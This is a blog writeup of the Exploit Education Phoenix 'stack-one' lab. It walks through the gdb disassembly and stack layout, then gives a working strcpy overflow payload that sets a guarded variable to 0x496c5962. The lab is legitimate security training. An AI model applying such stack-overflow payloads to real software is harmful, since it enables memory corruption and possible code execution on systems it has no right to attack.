```yaml
---
layout: post
title: Stack One Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
description: A comprehensive writeup that helps to understand Stack One exercise stack-overflow vulnerability with learning resources.
comments: true
---
```


If you're learning and writing binary exploits, I would strongly recommend you to take [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/) course by `Xeno Kovah`. They cover a wide variety of learning assembly instructions which will be really helpful to understand the exploits.

If you haven't done setting-up your lab, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)

### Quick Overview

Unlike Stack Zero, Stack One exercise motive is to smash the stack to modify other variables in the stack to a `hex value 0x496c5962`. Technically, similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared variables in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `volatile int changeme` stays in main stackframe.

### Disassemble

Disassembling the code will get you overall idea behind the stack-one code, One can use `gdb ./stack-one` to start debugging it in runtime.

1. `gdb ./stack-one`
2. Type `disassemble` to get the disassembled code (assembly)

```assembly
   0x000000000040066d <+0>:     push   rbp
   0x000000000040066e <+1>:     mov    rbp,rsp
   0x0000000000400671 <+4>:     sub    rsp,0x60
   0x0000000000400675 <+8>:     mov    DWORD PTR [rbp-0x54],edi
   0x0000000000400678 <+11>:    mov    QWORD PTR [rbp-0x60],rsi
   0x000000000040067c <+15>:    mov    edi,0x400750
   0x0000000000400681 <+20>:    call   0x4004c0 <puts@plt>
   0x0000000000400686 <+25>:    cmp    DWORD PTR [rbp-0x54],0x1
   0x000000000040068a <+29>:    jg     0x4006a0 <main+51>
   0x000000000040068c <+31>:    mov    esi,0x4007a0
   0x0000000000400691 <+36>:    mov    edi,0x1
   0x0000000000400696 <+41>:    mov    eax,0x0
   0x000000000040069b <+46>:    call   0x4004d0 <errx@plt>
   0x00000000004006a0 <+51>:    mov    DWORD PTR [rbp-0x10],0x0
   0x00000000004006a7 <+58>:    mov    rax,QWORD PTR [rbp-0x60]
   0x00000000004006ab <+62>:    add    rax,0x8
   0x00000000004006af <+66>:    mov    rdx,QWORD PTR [rax]
   0x00000000004006b2 <+69>:    lea    rax,[rbp-0x50]
   0x00000000004006b6 <+73>:    mov    rsi,rdx
   0x00000000004006b9 <+76>:    mov    rdi,rax
   0x00000000004006bc <+79>:    call   0x4004a0 <strcpy@plt>
   0x00000000004006c1 <+84>:    mov    eax,DWORD PTR [rbp-0x10]
   0x00000000004006c4 <+87>:    cmp    eax,0x496c5962
   0x00000000004006c9 <+92>:    jne    0x4006d7 <main+106>
   0x00000000004006cb <+94>:    mov    edi,0x4007d8
   0x00000000004006d0 <+99>:    call   0x4004c0 <puts@plt>
   0x00000000004006d5 <+104>:   jmp    0x4006eb <main+126>
   0x00000000004006d7 <+106>:   mov    eax,DWORD PTR [rbp-0x10]
   0x00000000004006da <+109>:   mov    esi,eax
   0x00000000004006dc <+111>:   mov    edi,0x400820
   0x00000000004006e1 <+116>:   mov    eax,0x0
   0x00000000004006e6 <+121>:   call   0x4004b0 <printf@plt>
   0x00000000004006eb <+126>:   mov    edi,0x0
   0x00000000004006f0 <+131>:   call   0x4004e0 <exit@plt>
```

Before taking a look at the code, if you disassembled the stack-one using gdb to view the assembly instruction, you may notice the puts, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/stack-one, brought to you by https://exploit.education` message via Puts (aka printf) method
2. Set `locals.changeme` variable to `zero` or `0x00` in hex
3. Strcpy `locals.buffer` variable filled by argv[1] argument passed from commandline
4. Verify `locals.changeme` is `0x496c5962` in hex
5. Use puts(aka Printf) method to greet the user again with decision (cmp instruction)
6. Finally exits the program with `exit(0)` system call instead of returning to the main function invoker

### Memory Allocation

As you see that the `locals` struct isn't dynamically allocated, they are allocated in the stackframe same as `main` function gets executes. The main function starts executing my pushing `$rbp` to stack at `0x7fffffffe610` and then `rsp` to `$rbp-0x60` as expected the stack grows from top (higher memory address) to bottom (lower memory address).

![Stack Memory Layout from $rbp till $rsp](/assets/media/exploit-education-phoenix-stack-one-rbp.jpg)

You can see that `locals.buffer` (64 bytes) gets written at `$rbp-0x50` i.e `0x7fffffffe5c0` and `locals.changeme` integer variable (4 bytes) at `rbp-0x10` i.e `0x7fffffffe600`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the stack to overwrite `locals.changeme`. If you playaround with these memory layout behaviour, you can note that the char `buffer` variable writes from `$rbp-0x50` towards `$rbp-0x10`.

### Exploit

As previously discussed `locals.buffer` and `locals.changeme` are allocated nearby each other in stack. So, if your input of 64 characters (example: 64 * 'A') wouldn't overrite the `locals.changeme` variable, but if you do the same with 65 characters, you have succesfully overwritten `locals.changeme` variable succesfully. However, our challenge is to overwrite `locals.changeme` variable with `0x496c5962`. If you try generating the payload simply  `(A * 64) + '\x49\x6c\x59\x62'`, this would represent in the memory as `64 'A's & 0x62596c49` 😵. Remember [Little Endianness](https://en.wikipedia.org/wiki/Endianness) ?, Yes Intel or AT&T syntax follows Little Endianness, so the representation should be in reverse order as `'A'*64 + '\x62\x59\x6c\x49'`.

![Stack Memory Layout](/assets/media/exploit-education-phoenix-stack-one-gdb.jpg)

```assembly
(gdb) r $(python -c "print('A'*64 + '\x62\x59\x6c\x49')")
Starting program: /opt/phoenix/amd64/stack-one
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
[Inferior 1 (process 426) exited normally]
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Stack One Exercise: [Exploit Education](https://exploit.education/phoenix/stack-one/)
2. [Architecture 1001: x86-64 Assembly](https://p.ost2.fyi/courses/course-v1:OpenSecurityTraining2+Arch1001_x86-64_Asm+2021_v1/course/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.
